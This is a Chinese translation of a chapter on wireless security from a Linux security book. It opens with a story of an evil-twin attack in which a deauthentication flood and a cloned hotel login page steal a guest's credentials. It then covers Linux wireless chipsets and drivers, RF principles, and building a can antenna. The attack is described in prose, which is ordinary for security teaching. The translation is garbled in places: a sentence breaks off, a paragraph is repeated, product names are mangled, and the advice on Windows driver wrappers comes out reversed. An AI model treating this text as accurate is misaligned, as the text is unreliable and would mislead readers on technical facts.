`HJ` 正在寻找一个财力雄厚的人，特别是支付了酒店无线网络接入费用的人。他将他的 `Atheros` 切换到监听模式，启动了 `Airodump`。由于丽迪森酒店有点偏僻，他无法在酒店提供的接入点之外定位任何附近的接入点（更不用说是非安全的了）。所以，“锤击者”不得不采取次优方案：找到一个连接的（并非双关）个人并获取他或她的登录凭据。笔记本屏幕的变化引起了他的注意，脸上露出一丝苦的微笑。

## 时间：`1928hrs GMT+7`

地点：曼谷，丽迪森酒店，`320` 室室

琼斯正在写邮件时，他的手机响了。倒霉。他的妻子打过来了，所以他必须接电话。你知道，琼斯觉得自己有点像个被妻管制的“道路战士”，他的妻子并不真正信任他——考虑到所有频繁的海外出差。而她并不知道，她正在给那个“锤击者”提供帮助……

## 时间：`1929hrs GMT+7`

地点：曼谷，丽迪森酒店，`311` 室室

识别了无线客户端的强度、其与接入点的距离以及建筑中其他接入点的相对位置后，`HJ` 知道他的钓骗攻击有很大的成功机会。他拿出他的 `Compex WL54G` 无线适配器，将其插入笔记本电脑的 `PCMCIA` 插槽。与内置的 `Atheros` 网卡配合。“锤击者”用他的 `Atheros` 卡连接接入点，开始抓取酒店的服务选择网关（Service Selection Gateway）页面并传输到笔记本电脑。随后是一些快速的修改，配合自定义的 `Airsnarf`/`Apache` 安装，“锤击者”现在有了一个功能完全的 Web 登录站点，带有看起来合法的错误页面。这简直是酒店 Web 登录页面的镜像复制。将 `Atheros` 切换到主模式后，`HJ` 对琼斯连接的 `AP` 以及琼斯的笔记本电脑发动了去认证洪水攻击（deauthentication flood）。

## 时间：`1930hrs GMT+7`

地点：曼谷，丽迪森酒店，`320` 室室


在他和妻子通话时，琼斯注意到他的无线连接似乎短暂中断了，然后似乎重新连接。然而，他必须重新登录酒店的 Web 登录页面才能连接互联网。他输入了用户 ID 和密码，但收到一个错误页面，显示服务器遇到困难，请稍后重试。也许这只是个故障，于是他点击浏览器的“后退”按钮再次尝试。没用——错误页面再次出现。

## 时间：1931hrs GMT+7

地点：曼谷，丽迪森酒店，311 室室

HJ 大声地叹了口气；客户端被他的去认证洪水攻击强制断开了与合法 AP 的连接，现在锁定了他的 Atheros 卡（以最大功率运行）作为带有酒店 SSID 的最强信号源。他笔记本电脑上的 DHCP 服务器完成了剩下的工作，客户端看到的只有他的虚假网站。“锤击者”进行了本地邮件检查，发现有两封……不，是三封带有登录凭据的邮件。每当客户端输入用户 ID 和密码时，虚假网站就会通过 Sendmail 将详情本地发送到 HJ 的笔记本电脑。他迅速禁用了了他的 Atheros 和 Prism64 卡，并打开了邮件……

## 时间：1931hrs GMT+7

地点：曼谷，丽迪森酒店，320 室室

当琼斯正和妻子说话时，他注意到无线连接似乎瞬间中断了，然后似乎重新连接。有些恼的琼斯再次尝试他的 Atheros 芯片，这一次他成功了。“肯定是服务器出问题了，”他心想，并把这个念头抛在脑后，开始使用酒店的无线接入。

## 时间：1933hrs GMT+7

地点：曼谷，丽迪森酒店

HJ 哼着一首不和谐的调子，断开了他的 Prism64 卡。获取了凭据后，由于大多数情况下酒店限制每个用户的登录数量，他访问了门户并浏览网页……

> (Hammerjammer 的备注...)

# 第 8 章：无线网络

## 219 页

正如前述故事所示，无线技术已深度渗透到我们的日常生活。从家庭和办公室的无线接入到地球与同步卫星之间的通信，我们日益依赖射频（RF）通信。这种日益依赖的例子包括：

- 带有蓝牙功能的手机、PDA 和手持设备
- 基于 RFID 的库存和货物追踪
- 军事陆海空通信

## 无线现状

无线技术无疑增加了生活的便利性。但另一方面，它也引入了新的风险和威胁。在关于无线网络的章节中，我们将介绍基于 Unix 的系统（包括 Linux 系统）如何作为审计平台以及被审计对象。特别是，我们将关注一种名为 802.11（或通常称为 WiFi）的无线技术，从如何使用 Linux 安全和审计组织网络的角度进行探讨。关于频谱测试（包括业务和军事行动的所有 RF 辐射）的更多信息，请参考 OSSTMM 和 OWSE：http://www.isecom.org。

## 攻击设置：Linux Native芯片组和驱动程序

| 流行度 | 7 |
| :--- | :--- |
| 易用性 | 8 |
| 影响 | 9 |
| 风险等级 | 8 |

# 破解 Linux 防御：Linux 安全秘密与解决方案

WNIC（无线网卡）：你如何知道特定品牌和型号使用的是什么芯片组？大品牌厂商并不真正想告诉你引擎盖下是什么什么，因为区分一个产品和另一个产品的往往是品牌标识。如果消费者知道 A 卡和 B 卡具有相同的芯片组，那么他（或她）就没有理由根据品牌名称支付溢价了。溢价的唯一逻辑理由是芯片组提供的任何额外功能（当然，结合相关的驱动程序）。

话虽如此，我们将查看在写作时提供 Linux 驱动支持的主要芯片组制造商。我们将忽略普通零售店不再销售的 Oronoco 或 Prism 2/5/3 卡（不过，这些卡仍然在二手商店可以买到，或者偶尔在 eBay 上能看到，如果有人兴趣的话）。相反，我们将关注那些更有可能出现在今天电脑商店货架上的芯片组。

在深入研究列表之前，给任何购买 WNIC 的人提供一句忠言：无论该 WNIC 是否与下列表匹配，请选择一个具有原生支持的芯片组——这意味着有一个开源或供应商提供的驱动程序，该程序可以直接在 Linux 环境中工作，而不需要在驱动程序和操作系统接口之间进行任何类型的第三方软件“封装”（提供抽象层）。在接下来的页面中，我们列出了一些原生支持的芯片组/驱动组合，以及其他需要第三方封装才能工作的组合。我们不会对 802.11n、802.11g 和 802.11b 的优缺点进行平庸的讨论，因为这个话题已经被在线评论者们说烂了；我们的重点是帮助你获得一个在 Linux 下能够原生运行的 WNIC。

与许多人的想法相反，包括一些自诩为“专家”的人（他们建议那些他们认为真正的黑客绝对必须知道的信息），实际上，真正的黑客绝对必须了解关于其硬件的这种水平的基础信息才能使用它。拥有一支枪却不知道如何装子弹，这就比于不了解自己所使用的无线硬件内部细节的自诩为“黑客”。对于那些想要从其无线硬件中获得最大审计效益的人来说，这一节是强制性的。

## Atheros 和 MADwifi/MADwifi

周围比较常见且功能强大的芯片组之一是 Atheros 制造的近 WNIC。例如，各种 Atheros 芯片组，如 `AR5001X`、`AR5002X`、`AR5004X/G` 和 `AR5213`，都通过开源的无线速率多频驱动程序（也称为 MADwifi）在 Linux 下获得原生支持。驱动程序和文档可以 MADwifi 项目页面 http://madwifi.org 下载。MADwifi 实际上有两个版本：原始的 MADwifi 和较新的 MADwifi-ng（下一代）。

这两个版本之间最明显的区别之一是使用命令配置网卡的方式。原始的 MADwifi 几乎完全使用 Linux 工具命令 `iwconfig` 来执行如模式切换（例如 managed 和 ad hoc）的操作。然而，MADwifi-ng 使用了一个绑定的命令 `wlanconfig`，其语法更为复杂。与其使用

```
iwconfig ath0 mode master
```

不如你使用

```
wlanconfig wifi0 destroy
wlanconfig create wlandev1 wifi0 wlanmode master
```

注意，新命令引用的是逻辑 `wifi0` 接口而不是实际的 `ath0` 接口。在新的 MADwifi-ng 驱动程序下，所有流量实际上都通过虚拟 `wifi0` 接口运行，尽管像 `iwconfig` 这样的命令仍然使用实际接口引用 `ath0`。因此，像 Kismet 这样的应用程序实际上会使用 `wifi0` 接口来接收流量。

使用这种不同指令集 [wlanconfig 与组合] 的原因部分是因为 Atheros 开发并提供给 MADwifi 驱动程序的新驱动代码，以便与原始 MADwifi 代码集成。遗憾的是，将新的 Atheros 代码回传到原始 MADwifi 代码库比说的的要容易得多，因为新代码差异很大。这就是 MADwifi-

Atheros/MADwifi 组合允许用户访问全模式：master（主站）、monitor（监听）、managed（托管）和 ad hoc（点对点）。这使得基于 Atheros 的卡从作者的角度来看非常有吸引力，因为他可以有效地审计无线接入点 (AP) 和无线中心。有趣的一点是，发现 WCCD 漏洞的 Chris Low 和 Julian Ho 在对 Windows 下运行的 Atheros 网卡进行无线嗅探和探测映射测试后，发现探测请求帧的 SSID 中嵌入了大量的伪十六进制字符。这给人一种客户端在 Windows 下设置了许多配置的错觉。这是判断特定客户端正在使用 Atheros 芯片组的一种方法，因为这种行为无论使用 USB、PCI 还是 PCMCIA 形式似乎都是一致的，该行为与芯片组本身相关。

像 Planex 这样的供应商在其网卡的封面贴上贴了 Atheros 标签，以便对我们而言可以识别芯片组，这是一件好事！基于 Atheros 的卡示例包括 Planex GW-NS54SG (PC-Card)、SMWPCI-G (PCI) 和 SparkLAN WMIA-123AG (用于笔记本的微型 PC)。

## Conexant PrismGT 和 Prism5 项目

另一个强大的芯片组是 Conexant 的 Prism GT 芯片组。首先回顾历史：包含 Prism 2、5 和3 芯片组的 Prism 系列由 Originators Interell 在 2003 年卖给了 GlobesanVirata，后者在同年与 Conexant 合并。使 Linux 能够访问此芯片组全部功能的源码驱动程序来自 Prism5 项目 (http://www.prism54.org)。与 Atheros/MADwifi 不同，Prism54 仅依赖 Linux Wireless-Tools 包（`iwconfig`、`iwpriv` 等）来配置网卡。

等待，prism54.org。与 Atheros/MADwifi-ng 组合不同，你必须考虑带有 Prism 芯片组的设备是 FullMAC（全功能 MAC）还是 SoftMAC（软功能 MAC）。

# 破解 Linux 防御：Linux 安全秘密与解决方案

FullMAC 卡：FullMAC 卡需要加载固件。该文件可以在 prism54.org 找到，位于 `/etc/hotplug`。SoftMAC 卡：由于削减措施，FullMAC 的 802.11 访问控制 (MAC) 功能由固件处理，而 SoftMAC 则将其交给主机。结果减少了每块卡的硬件需求。你还需要修改 `/etc/modprobe.conf` 文件并输入以下行

```
alias <insert-name-of-WNIC-interface> islpci
```

PCMCIA 卡更有可能是 FullMAC，但这绝非保证：买家自负（ceacat empor）。

## Ralink RT2400/2500/2570 和 SerialMonkey 的 RT200

与之前的芯片组不同，Ralink/RT200 组合目前不支持 master 模式。因此你无法将 WNIC 设置为 AP。然而，它在监听模式下运行良好，这种组合对于使用 Aircrack-ng 语句和 Kismet 等工具进行基础无线审计仍然很好。Ralink 芯片组的开源驱动可以在 http://rt2x00.serialmonkey.com 下载，该网站也有良好的驱动支持文档以及讨论/帮助论坛。

## Intel Centrino 和 IPW200

世界上最常见的芯片组，Intel Centrino 品牌的无线适配器使用 IPW2200 项目开发的开源驱动，地址为 http://ipw2200.sourceforge。然而，写作时，Centrino/IPW200 驱动不支持 master 模式，使其与 Ralink/RT200 分出一类。一个启用 master 模式的独立驱动项目正在 http://sourceforge.net/projects/ipw2200-ap 进行中，但该驱动是独立的，这意味着如果你需要操作所有模式，需要在 Linux 机器上加载两者。对于那些使用前 Centrino Intel 无线硬件（即 IntelPRO/Wireless2100 芯片组）的用户可以通过 http://ipw2100.sourceforge.net 获取 Linux 驱动。Centrino 比之前的芯片组稍微削弱一些，因为尽管它允许监听模式，但原生驱动目前不允许帧注入，这限制了它在无线审计中的效用。

## 第 8 章：无线网络

## 其他无线芯片组及 NDISwrapper/Driverloader

市面上有很多由博通（Broadcom）和德州仪器（Texas Instruments）等厂商制造的现代可用 802.11g 无线芯片组。然而，我们建议 Linux 用户避免使用这些芯片组，因为在本文编写时，它们的原生 Linux 支持并不完善（即它们没有支持监听模式或主设备模式的驱动程序）。它们唯一的用途可能只是普通的终端用户连接，即便如此，也只有在配合 NDISwrapper 或 Linuxart Driverloader 等第三方封装器的情况下才能。

NDISwrapper 和 Driverloader 确实可以让 Linux 用户使用其无线网卡（WNIC）的 Windows 驱动（遗憾，每个网卡都是如此）。你通过在 Windows 驱动外部“封装” NDISwrapper 或 Driverloader 来，使其在 Windows 驱动（它不知道如何与 Linux 操作系统通信）和 Linux 操作系统本身之间充当抽象层。这些“封装器”随后会在操作系统和 Windows 驱动程序之间翻译指令，从而让你无论是否有专门为该网卡设计的开源驱动程序，都能使用该网卡。

听起来很棒，对吧？但有一个问题：没有监听模式或主设备模式，只有终端模式和自组模式（ad hoc）。这是因为网卡制造商为大多数网卡使用的 Windows 驱动程序通常在 Windows 下并未启用这些模式。除非建立独立的 Windows 驱动项目在 Windows 驱动程序包中支持这些模式，否则 Linux 上的封装用户将一直受限于 Windows 驱动程序有限的功能。因此，为了启用原生驱动程序提供的全部芯片组功能，我们建议获取前面章节中讨论过的任何芯片组/驱动组合，并在 Linux 环境中强制使用 Windows 驱动程序。

## 芯片组与驱动链接

你们中的一些可能知道此处未提到的其他支持 Linux 的无线芯片组（例如 Zydas 121），你可能可能会为什么。之所以许多人不愿浪费时间去寻找过时或不再生产的芯片组，是因为我们没有涵盖那些在市场上没有显著地位或制造商已不再作为持续实体运营的芯片组。例如：Zydas 已于 2006 年 8 月被 Atheros 收购。

当然，如果需要，你可以找到更冷门的芯片组。此时，你可能会问：“如何知道哪种特定的网卡包含哪种特定的芯片组？”虽然通过试错购买和测试是一种选择，但这种方法非常昂贵！因此我们通过列出前几页提到的芯片组的开源驱动项目，让事情变得简单了一些。这些项目列出了与各种开源驱动程序兼容的芯片组及其对应的图表：

| Atheros 参考设计 | |
| :--- | :--- |
| Linux 驱动 | http://madwifi.org/wiki/UserDocs/GettingMadwifi |
| 硬件列表 | http://madwifi.org/wiki/Compatibility |

## 破解攻防 Linux：Linux 安全机密与解决方案

### Conexant Prism GT

- Linux 驱动：
  - http://prism54.org/newdrivers.html (SoftMAC)
  - http://prism54.org/fullmac.html (FullMAC)
- 硬件列表：
  - http://securitystartshere.org/page-training-osa-wnics-prism54.htm

### Intel Centrino

- Linux 驱动：
  - http://ipw2200.sourceforge.net/downloads.php
  - http://sourceforge.net/projects/ipw2200-ap (用于 AP 模式运行)
- 硬件列表：
  - 任何带有 Intel Centrino 标签的笔记本电脑
  - （注：2007 年及以后生产的笔记本可能使用的是 Intel 3945 无线芯片组，它是 2200 的继任者）

### Rallink RT2400 / RT2500 / RT2570 / RT73

- Linux 驱动：
  - http://rt2x00.serialmonkey.com/wiki/index.php/Downloads
- 硬件列表：
  - http://rt2x00.serialmonkey.com/wiki/index.php/Hardware

### Zydas 1211 USB USB 802.11b/a g 无线网卡

- Linux 驱动：
  - http://zd1211.ath.cx
  - http://zydas.rapla.net
  - http://zd1211.ath.cx

## 使用 Linux 原生芯片组和驱动防御攻击

在进行任何类型的攻击之前，绝对需要 Linux 支持的无线芯片组和驱动作为目标。然而，由于芯片组和驱动程序与物理硬件绑定，阻止攻击者物理使用其设备的唯一方法是从根本上拒绝他们访问这些设备。这涉及到：

- 枯竭原生 Linux 支持无线芯片组的供应
- 停止能够在 Linux 中使用硬件的生无线驱动开发
- 针对攻击者的硬件运行射频（RF）或基于协议的拒绝服务（DoS）攻击

考虑到硬件制造商希望其产品被尽可能多平台采用的动机，以及开源软件开发的分布式特性，前两项实际上是不可行的。

第三种行动在技术上可行，但在实践中是不可能的，因为你必须首先识别攻击者。如果攻击者只是在被动地嗅探空气，你不会收到任何此类操作正在发生的警告或指示，因为没有产生任何流量。如果你成功识别了攻击中的黑客，针对其硬件发动射频拒绝服务攻击是唯一的方法。

## 频率和波长对攻防的影响

| 流行度 | 2 |
| :--- | :--- |
| 简单性 | 4 |
| 影响 | 10 |
| 风险评分 | 5 |

无线信号的频率简单来说就是信号在给定周期内重复或“循环”的次数，通常以秒为单位。频率与无线波形的长度成反比，即在给定周期内移动的距离。信号的频率越高，波长越短，反之亦然。

因此，发射频率为 2.412 GHz 的无线接入点（AP）产生的无线波长在每秒内重复 2,412,000,000 次。为了能够在一秒内完成重复（电磁信号以光速发射，即每秒 3 × 10^8 米），其波长必须相对较大。在这个例子中，它是 12.437 厘米。

## 第 8 章：无线网络



# 信号越强，越容易破解：幅度

对于射频（RF）和其他形式的电磁能量，幅度表示波形电场的强度，从而表示发射信号的强度/能量。幅度越大，信号强度越强，因为电磁波的强度与幅度的平方成正比。幅度向攻击者表明特定信号对于其天线来说是很强的。这意味着嵌入信号中的编码高层协议（例如 802.11）更容易被解码，意味着嗅探空气信号将变得更容易。


如果无线设备的管理员能够降低射频信号的幅度，那么攻击者的无线网卡（`WNIC`）解码嵌入协议将将变得困难得多。假设无线硬件是可配置的，防御者可以通过限制射频发射器的功率输出（将其从 30 mW 降低到 1 mW）来采取防御。

# 非基于协议的拒绝服务：噪声

从射频的角度来看，噪声是影响目标信号的非理想干扰，它会改变信号的属性，并由人为和/或自然产生。简单来说，这意味着射频信号被干扰的程度以至于无线网卡无法解码信号中嵌入的信息。

噪声可能是故意的，例如军事交战期间的电子反（`ECM`）干扰，也可能是无意的，例如微波炉干扰接入点（`AP`）的信号。无论情况如何，效果都是相同的——信号被恶化。高层协议尝试使用各种算法（如直接序列扩频 `DSSS` 或正交频分复用 `OFDM`）将数据编码到射频信号中，以便接收站能够在信号退化程度较高的水平下从接收到的信号中解码出信息，从而使无线通信交换能够抵抗噪声和信号衰减的影响。然而，这种编码方案是有限的，并且不可避免地存在一个点，无论如何编码都无法击败噪声和衰减对给定信号的影响。使用射频产生噪声对无线目标发起拒绝服务（`DoS`）攻击的攻击者，将以高层协议无法纠正的方式干扰无线目标，因为攻击者针对的是传输介质或载介质（例如，在 2.4 GHz 频谱中产生原始谐波噪声），而不是高层协议（例如，802.11 去认证/取消关联帧泛洪）。

# 连接丢失：衰减

衰减是信号幅度（或强度）的减小，由许多因素引起：射频波路径上的障碍物、射频波穿过的大气的自然阻力、链路连接处的缺陷等。即使障碍物没有阻塞信号分量，信号在遇到障碍物时也可能通过反射、折射或吸收而衰减。如果信号被反射，它将以与入射角相同的角度反弹。如果信号被折射，它将通过障碍物但其路径被改变。

即使障碍物没有阻塞信号分量，信号在遇到障碍物时也可能通过反射、折射或吸收而衰减。如果信号被反射，它将以与入射角相同的角度反弹。如果信号被折射，它将通过障碍物但其路径被改变。

正如你所看到的，许多因素增加了攻击者是否能够获得足够强的信号来提取数据。最终，在接收点，攻击者寻找的是很强的信噪比（`SNR`）。这是衡量在给定环境噪声和衰减的情况下，任何接收信号质量优的指标。攻击者还会尝试通过使用硬件辅助（如外部天线）来增强他们的接收和传输能力。



## 第 8 章：无线网络

# 射频黑客改进工具：天线与增益

通常，攻击者无法获得足够强的信号来成功解码嵌入协议。这就是攻击者应用其对增益概念的理解以及应用适当天线类型来增强接收和传输的地方。

信号的接收或传输必须经过天线。天线用于辐射或收集射频能量，可以是全向的或定向的。全向天线向所有方向辐射信号。理论上，它没有方向。然而，今天市面上的全向天线是偶极子/半波偶极子变体，具有环形或甜圈形状的发射图图，并在垂直轴正上方存在盲区。

定向天线在特定方向上具有高增益。增益是方向性的衡量标准，以 dBi 或相对于全向（isotropic）为单位进行测量。全向是指向所有方向辐射的纯定向天线的理论完美球形发射图。全向天线在物理上是不存在的。相反，它们被用作与现实天线类型的理论比较。那么，与相对 3 dBi 全向天线相比，10 dBi 增益的天线在特定方向上具有更长、更像鱼雷的形状。

在不同类型的定向天线中，由八木秀（Hidetugu Yagi）和八田信太郎（Shintaro Yada）开发的八木-八田设计在许多国家房屋和公寓楼楼顶常见的电视天线中得到了最好的体现。八木-八田的组成如图 8-3 所示。

# 破解 Linux：Linux 安全秘籍与解决方案



**图 8-3** 八角线天线设计

八角线设计旨在将射频（RF）信号沿波导轴引导到天线前端。具有这种方向性，其射频覆盖范围类似于图 8-4 所示。



**图 8-4** 八角线天线射频覆盖范围

显然，八角线在特定方向上发射射频信号的距离比全向天线远得多。然而，这显然是以牺牲全方位覆盖为代价的。从 Linux 爱好者的角度来看，他或她可以使用八角线，通过配置为路由器的主模式无线网卡（`WNIC`），可靠地桥接两个相距远达 1.5 公里的 Linux 机器，来提供更好的网络连接。或者，可以使用下一节提到的工具对无线网络进行远距离审计。

与八角线一样，抛物面天线也是方向性天线。然而，它的波束宽度窄得多。因此，更窄的波束使得抛物面设计在增益上通常优于八角线，距离更高。抛物面性能范围的一个例子是：抛物面被安装在航天器上与地球控制中心通信，并用于海军战舰的监控和火力控制（见图 8-5）。

由于波束宽度窄得多，天线的对准（boresighting）变得更加关键。让我们来看看黑客是如何制作外部天线的。


图 8-5 美国企业级 CVN-65 舰上的抛物网栅天线（照片由 Julian “HammerJammer” Ho 提供）

# 制作罐天线 (Cantenna)

只需要一点工程知识和一些制作尝试，任何人都可以制作有效的 14 dB 增益远距离天线。由于 DIY（自制）天线在结构中经常使用马铁罐（如图 8-6 所示），它们通常被称为“罐天线”。

在本节中，我们将引导你构建自己的罐天线。

首先，你需要收集一些工具。对于这个项目，我们建议你乞要、借或购买以下物品，它们在大多数当地商店都能获得：

- 尖嘴钳
- 剥线器/剪刀
- 尖头剪钳
- 扳手或可调节扳手
- 六角压接接头
- 重型剪刀
- 带有尖头焊锡头的烙铁和焊锡
- 30 厘米尺子
- 手持电刻机（可选，但可以显著缩短你的制作时间并让罐天线看起来更整洁）



# 第 8 章：无线网络

原材料，请准备以下物品：

- 相同直径和尺寸的马铁罐（使用的总数取决于罐的直径）
- MC 连接器或 SMA 连接器（取决于你的 `WNIC` 或 `AP` 天线插口）
- N 母头板载式（4 孔）或带有 N 公头压接连接器的 N 母头防水连接器（取决于你的构建偏好）
- 两米屏蔽线（类型均可，但必须是屏蔽电缆——RG6 或 RG58 完全可以）
- 环氧腻土或复合材料（不要用胶水！）
- 用于拧在标准相机三脚架上的六角螺母
- 尼龙扎带
- 塑料电气插座盒（标准英国 3 针 13A 电源插座后面墙壁凹内的白色外壳，约为 2.5 英寸 × 2.5 英寸 × 1.5 英寸，美国墙壁插座盒应具有相似尺寸）

**第 1 步：制作主体** 使用尺子测量直径。罐天线是根据一个数学方程构建的，该方程计算你打算运行罐天线的频率的四分之一波长。这个四分之一长度点是你将天线插入马铁罐的位置。总长度还规定了整个罐天线的长度。根据直径，你可能需要将两个或多个罐连接在一起。典型的超市罐直径大约在 3 到 4 英寸之间。3.25 英寸直径的带凹槽顶的水果罐（这些罐几乎可以堆叠在一起）是性能和便携性之间的最佳折中。根据每个罐的高度，你可能需要使用三个这样的罐。取其中一个的顶部并保持金属底完好以形成罐天线的四分之一端。取另外两个的顶部和底部以形成罐天线的其余部分。

一旦确认了四分之一长度和全长度的数学计算，你可以参考 SECURE 罐天线计算器：`http://securitystarts.org/page-training-osenna-calculator.htm`。

用剪刀或钳从马铁罐底部标记出四分之一点，作为罐天线的实际端点（只需在罐外表面划一个 X）。然后用剪钳在罐上钻一个孔，孔的中心位于你刚刚标记的 X 中间，或者最好使用手持电刻机来钻孔。这个孔应该足够宽，以便你的连接器能够牢固地插入。你应该在制作过程中进行测试。图 8-7 描述了这一过程。

有些人使用薯片罐罐（例如“Pringles”罐天线）作为罐天线的主体。然而，Pringles 或薯片纸筒的直径太小，无法使其成为真正的高效罐天线。你还需要确保罐天线的材料


**图 8-7** 测量并为天线连接器钻孔（照片由 Julian “HammerJammer” Ho 提供）。

实际上是金属，而不是覆盖铝箔。实际的金属片（无论是铝还是钢）比薄箔密度更大、更厚。在实践中，与大众观点相反，铝箔是不够的。

**第 2 步：绞巴线和连接器** 准备天线电缆以接收 MC 连接器（或其他取决于你的接口）。这段连接 `WNIC` 的线缆被称为“绞巴线”（因为像尾巴一样弯曲）。你需要剥去一段等于 MC 连接器长度的线缆。剥去线芯并将屏蔽层连接到 MC 连接器的外壳上，然后滑入外罩并压接。你可能还想在接头处加上一些热缩管。

在另一端，重复上述描述的操作，但剥去的线缆长度取决于你使用 N 母头板载式连接器还是 N 母头防水和 N 公头压接套装。大多数人会建议你使用板载式连接器。这种方法的问题是，由于绞巴线与板载连接器之间以及进入罐天线的裸线之间的连接，会导致不必要的衰减（特别是耦合损耗）。此外，你在另一端受限于一种连接器类型，例如 MC 连接器。HammerJammer 倾向于使用连续的方法，即使用 N 母头防水和 N 公头压接连接器，让天线穿过连接器从剥去外皮的另一侧出来。使用这种方法，不需要金色插头。图 8-8 和 8-9 展示了这种方法。

# 攻防 Linux：Linux 安全秘密与解决方案



**图 8-9** 天线线未断且伸直，以便穿过屏蔽连接器进入罐天线（cantenna）主体（照片由 Julian "HammerJammer" Ho 提供）

**步骤 3：连接跳线（Pigtail）到罐天线** 将“直通型”（through-and-through）连接器的上半部安装在罐天线主体上，小端朝内。然后通过垫圈和螺丝圈拧紧，或使用环氧胶将其固定。接下来，将跳线的“直通型”连接器下半部分拧入罐天线的半部分。现在你的电线应该暴露在罐天线内部。剪断电线，使其末端尽可能靠近罐体直径的中心。接着，将罐子组合在一起，并在接缝处添加环氧胶，以确保在混合并涂抹复合材料之前，罐边缘交汇处能够良好的密合。这为罐天线提供了极佳的粘性和结构强度，使其耐用且轻便。在环氧胶固化之前不要移动组装体。

**步骤 4：安装** 取出插座盒并切割边缘，使其匹配罐天线外面的曲率。该盒子将作为标准相机三脚架的支架/连接点。在插座盒上测试罐天线，不断切割直到你对贴合程度满意。

